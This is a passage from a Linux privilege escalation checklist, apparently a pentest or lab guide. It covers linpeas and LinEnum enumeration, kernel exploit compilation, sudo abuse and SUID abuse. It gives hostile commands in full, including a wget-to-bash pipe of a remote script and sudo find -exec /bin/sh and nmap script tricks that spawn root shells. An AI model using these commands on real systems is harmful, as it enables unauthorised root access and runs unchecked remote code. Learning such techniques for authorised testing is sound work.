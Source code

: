 - **linpeas.sh** — highly recommended for initial deep enumeration (look for sudo, SUID, cron, interesting files). Copy to target and run: `wget -qO- https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh | bash`

- **LinEnum.sh** — another automated enumeration script.

- **unix-privesc-check** and **GTFOBins scanner scripts** — can help identify potential misconfigurations.

> **Tip:** automated tools are good to gather leads, but **always validate manually** before exploiting. Automated output can be noisy and produce false positives.

---

## Privilege escalation vectors & step-by-step checklists

### 1) Kernel exploits

- **Goal:** check kernel version and map to known Local Privilege Escalation (LPE) CVEs.
- Steps:
  1. `uname -r` / `cat /proc/version` — save exact kernel string.
  2. Search exploit-db / GitHub for `CVE-<year>-<id>` matching the kernel. Verify patch dates and PoC availability.
  3. If a PoC exists and target has a compiler, download PoC `.c` and compile: `gcc -o exploit exploit.c -pthread` (follow PoC instructions).
  4. Run PoC carefully in non-production environment. If successful, `id` should become `root`.
  5. If kernel exploit fails or machine lacks a compiler, try cross-compiling or transferring a compiled binary.

**Safety:** kernel exploits can crash the system. Use caution and snapshot the VM if possible.

---

### 2) Sudo abuses

- **Goal:** find binaries the user can run as root (or other users) and abuse them to spawn shells or read files.
- Steps:
  1. `sudo -l` — note allowed commands and whether a password is required.
  2. For each allowed binary, check GTFOBins for abuse patterns (e.g., `nmap`, `vi`, `less`, `find`, `awk`, `python`).
  3. Prefer using **absolute path** to the binary shown by `sudo -l` (e.g., `sudo /usr/bin/nmap --script=...`).
  4. Examples: `sudo /usr/bin/nmap --script=/tmp/shell.nse` or `sudo /usr/bin/find / -exec /bin/sh -p \;` depending on GTFOBins entry.

**Tip:** If `sudo -l` allows running binaries with arbitrary arguments, you can often spawn a root shell. Always search GTFOBins first.

---

### 3) SUID binaries

- **Goal:** abuse mis-set SUID binaries to escalate privileges.
- Steps:
  1. `find / -perm -4000 -type f 2>/dev/null` — list SUID files.
  2. For each binary, consult GTFOBins for known abuse techniques.
  3. Test in a safe way: for some SUID binaries, only specific use-cases escalate; avoid destructive operations.
